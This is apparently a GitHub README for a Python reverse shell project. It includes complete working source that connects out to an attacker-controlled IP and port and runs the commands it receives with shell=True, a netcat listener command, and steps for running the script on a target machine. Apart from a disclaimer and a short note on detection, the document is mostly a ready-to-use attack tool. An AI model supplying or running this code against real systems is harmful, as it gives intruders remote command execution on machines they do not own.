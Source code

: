 
# Reverse Shell Script

This project is a Python-based reverse shell script. It connects a compromised machine back to an attacker's machine, allowing the attacker to execute shell commands remotely on the compromised system. **This script is for educational purposes only and should be used responsibly.**

## Features

- Establishes a reverse connection to a specified IP and port.
- Executes shell commands received from the attacker's machine.
- Sends command outputs back to the attacker.

## Requirements

- Python 3.x
- Netcat (`nc`) or a similar tool on the attacker's machine for listening to connections.

## Setup

### Attacker's Machine

1. **Start a Listener:**

   Open a terminal and run:

   ```bash
   nc -lvp 4444
   ```

   - `-l`: Listen mode.
   - `-v`: Verbose output.
   - `-p 4444`: Listen on port 4444 (ensure this matches the script configuration).

### Target Machine

1. **Save the Script:**

   Create a file named `reverse_shell.py` and paste the following code:

   ```python
   import socket
   import subprocess
   import sys
   import time

   HOST = '172.16.0.2'  # IP address of the attacking machine
   PORT = 4444          # Port number the attacking machine is listening on

   def connect(host, port):
       go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       go.connect((host, port))
       return go

   def wait(go):
       data = go.recv(1024).decode('utf-8')
       if data == "exit\n":
           go.close()
           sys.exit(0)
       elif len(data) == 0:
           return True
       else:
           p = subprocess.Popen(data, shell=True,
                                stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                stdin=subprocess.PIPE)
           stdout, stderr = p.communicate()
           go.send(stdout + stderr)
           return False

   def main():
       while True:
           dead = False
           try:
               go = connect(HOST, PORT)
               while not dead:
                   dead = wait(go)
               go.close()
           except socket.error:
               pass
           time.sleep(2)

   if __name__ == "__main__":
       sys.exit(main())
   ```

2. **Run the Script:**

   Open a terminal, navigate to the script directory, and execute:

   ```bash
   python3 reverse_shell.py
   ```

   This will attempt to connect back to the attacker’s machine.

## Usage

1. **Listener Setup:**

   Ensure the attacker's machine is ready to accept connections:

   ```bash
   nc -lvp 4444
   ```

2. **Execute Script:**

   Run the script on the target machine to establish a reverse shell:

   ```bash
   python3 reverse_shell.py
   ```

3. **Command Execution:**

   - Type commands in the Netcat terminal to execute them on the target machine.
   - Use `exit` to close the connection.

## Security Considerations

- **Legal Use:** Ensure you have explicit permission to test systems using this script. Unauthorized access to computer systems is illegal.
- **Network Configuration:** Ensure the target machine can connect to the attacker's machine over the network. Adjust firewall settings if necessary.
- **Detection and Prevention:** Use network monitoring tools to detect and block unauthorized outgoing connections.

## Disclaimer

This script is intended for educational purposes only. It demonstrates how reverse shells work and should only be used in a controlled environment with explicit authorization. Misuse of this script can result in legal action.

## License

This project is open-source and available under the MIT License.
```

This README provides a comprehensive overview of the project, including setup, usage instructions, and important security considerations. Always ensure that such scripts are used legally and ethically.
